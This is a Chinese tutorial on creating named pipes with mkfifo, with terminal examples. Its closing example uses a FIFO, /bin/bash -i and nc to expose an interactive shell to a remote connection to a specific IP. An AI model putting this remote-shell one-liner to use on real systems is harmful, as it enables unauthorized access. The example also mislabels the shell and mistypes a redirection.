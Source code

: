# Linux mkfifo管道符

## 概述

`mkfifo`命令用于创建FIFO(命名管道符)。

**命名管道符 VS 匿名管道符**

==管道符用于创建程序之间的通信通道==（管道相当于一个通道，使用FIFO策略）

- 匿名管道符`|`
- 我们使用`mkfifo`来创建命名管道符

> 我们可以使用匿名管道符来传递数据，但是这中方式有一个缺陷。只能由同一个祖先进程启动。所以我们可以使用命名管道符（在Linux一切皆文件）

```
terminal01
root in /opt/test λ mkfifo pipe2 #创建一个命名管道符
root in /opt/test λ ll
|rw-r--r-- root root 0 B Thu Jan  7 07:25:45 2021  pipe2     
root in /opt/test λ echo "hello to pipe2" > pipe2  #将需要传输的内容写入管道中，由于是echo进程启动的，所以管道符会一直阻塞echo进程，知道管道符中的内容被读取

----

terminal02
root in ~ λcat < /opt/test/pipe2 #读取管道中内容
       STDIN
   1   hello to pipe2 

```

管道符有三种权限策略（与文件权限相同），我们可以通过`-m`参数来指定

```
root in /opt/test λ mkfifo pipe2 -m 700                                  /0.0s
root in /opt/test λ ll
|rwx------ root root 0 B Thu Jan  7 07:35:53 2021  pipe2                /0.0s
```



## 案例

使用nc创建管道符，实现reserveshell

```
#server side 
root in /tmp mkfifo /tmp/pipe2
root in /tmp λ cat /tmp/pipe2 | /bin/bash -i 2&>1  | nc -l 10086 > /tmp/pipe2 

#client side 
root in /opt/test λ nc 8.135.0.171 10086
```

